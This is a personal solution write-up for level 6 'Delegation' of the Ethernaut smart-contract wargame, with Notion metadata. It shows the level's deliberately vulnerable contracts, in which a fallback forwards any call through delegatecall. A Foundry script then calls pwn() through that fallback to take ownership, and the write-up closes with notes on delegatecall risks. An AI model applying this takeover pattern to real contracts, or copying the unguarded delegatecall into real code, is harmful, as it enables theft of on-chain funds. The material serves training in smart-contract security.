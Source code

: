 ```yaml
---
title: "Delegation"
date: "2024-02-01"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐⭐"
prev: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
weight: 7
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/6"
next: "Force-79bc75128abc41f2b25e56b521833ab6"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "0c005c8b-167c-4966-9267-71bad0ff918c"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel6.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-01"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 7
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/6"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Force-79bc75128abc41f2b25e56b521833ab6"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Force-79bc75128abc41f2b25e56b521833ab6"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Delegation"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Delegation"
          href: null
  url: "https://www.notion.so/Delegation-0c005c8b167c4966926771bad0ff918c"
  public_url: null
UPDATE_TIME: "2024-02-15T12:46:29.440Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


The goal of this level is for you to claim ownership of the instance you are given.


Things that might help

- Look into Solidity's documentation on the `delegatecall`
low level function, how it works, how it can be used to delegate
operations to on-chain libraries, and what implications it has on
execution scope.
- Fallback methods
- Method ids

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface Delegation {
  function owner() external returns(address);
  fallback() external;
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_06");

        vm.startBroadcast(deployerPrivateKey);

        Delegation delegation = Delegation(addr);

        console.logAddress(delegation.owner());

        bytes memory data = abi.encodeWithSignature("pwn()");
        (bool result, ) = address(delegation).call(data);
        if (result) {
        }

        console.logAddress(delegation.owner());


        vm.stopBroadcast();
    }
}
```


Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, 
-other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.


Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.

